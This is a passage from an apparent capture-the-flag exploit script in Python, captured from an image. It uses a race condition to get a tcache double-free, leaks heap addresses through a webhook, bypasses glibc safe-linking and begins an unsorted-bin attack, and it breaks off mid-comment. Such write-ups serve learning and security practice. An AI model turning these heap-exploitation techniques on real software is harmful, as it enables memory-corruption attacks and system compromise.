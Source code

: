 ```python
    else:
        r.sendlineafter(b":", str(mark).encode())
    if desc != b"":
        r.sendafter(b":", desc)

# given a pointer generate mark and description 
def gen_mark_desc(ptr):
    mark = ptr & 0xffffffff
    desc = p32((ptr & (0xffff<<32)) >> 32)
    return mark, desc

# calculate safe-linked pointer
def calculate_P1(P, L):
    L12 = L >> 12
    P = P.to_bytes(8, "big")
    L12 = L12.to_bytes(8, "big")
    return int(bytes([p^l12 for p,l12 in zip(P,L12)]).hex(), 16)

def main():
    if args.REMOTE:
        print(r.recvuntil(b"Result"))
        r.sendlineafter(b":", input("Result: ").encode())

    # race condition to tcache-dup & leak heap
    add(0, 1, b"")
    # -- start race --
    save(0, WEBHOOK)

    # change tcache-key (use "-" to keep chunk->fd untouched)
    change(0, b"-", b"asdasdasdasdasd")
    time.sleep(1) # ensure requests arrive in the right order
    save(0, WEBHOOK) # leak heap
    time.sleep(2)
    # -- end race -- 

    # -- guess upper 4 bits of heap --
    leak = int(requests.get(WEBHOOK.decode()+"bodies.txt").text.split("\n")[-2].split("mark=")[1])
    heap = 0
    if leak < 0:
        heap = (0x100000000 + leak)
    else:
        heap = leak
    heap = heap << 12
    # log.info(f"partial heap: {hex(heap)}")
    # h_nibble = int(input("Guess the upper nibble: 0x").rjust(2, "0"), 16)

    # usually 0x55 <= (heap>>40) <= 0x65
    if (heap>>40) > 5:
        h_nibble = 5
    else:
        h_nibble = 6
    heap = (h_nibble<<44) + heap
    log.warning(f"heap: {hex(heap)}")
    # -------------------------------

    # undo tcache dup
    add(0, 1, b"")
    add(0, 1, b"")

    # ======================================================

    # create a big chunk and put it in unsortedbins
    # allocate from it a chunk 
```